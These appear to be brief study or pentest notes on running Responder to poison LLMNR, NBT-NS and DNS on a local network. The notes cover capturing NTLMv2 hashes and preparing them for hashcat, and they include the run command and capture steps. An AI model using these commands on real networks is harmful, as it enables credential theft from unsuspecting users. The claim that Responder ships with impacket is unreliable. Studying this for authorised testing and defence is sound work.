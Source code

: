 Responder comes in the impacket toolkit. 
> sudo apt install python3-impacket

Run Responder from in network
> responder -I eth0 -rdw 
> (add v for verbose)

Output lists some stuff initially. 
- Poisoners (it's actually listening on each of these)
	- LLMNR 
	- NBT-NS 
	- DNS
- Servers (it's running each of these server types for MITM intercept & respond)
	- HTTP
	- ...
- ...
- Listening for events (this is current status)

Now...
While Responder is running:
	if a user tries to connect to a server in Responder Servers:
		for poisoner in Responder Poisoners:
			collect NTLMv2 username:hash combos. 
			return hash combos to hashcat. 

Don't forget to copy entire hashes into separate files so you can pass them into hashcat. Format will be username::domain:0blahblahblah. Copy all of it. Trim trailing spaces. Save as separate files.

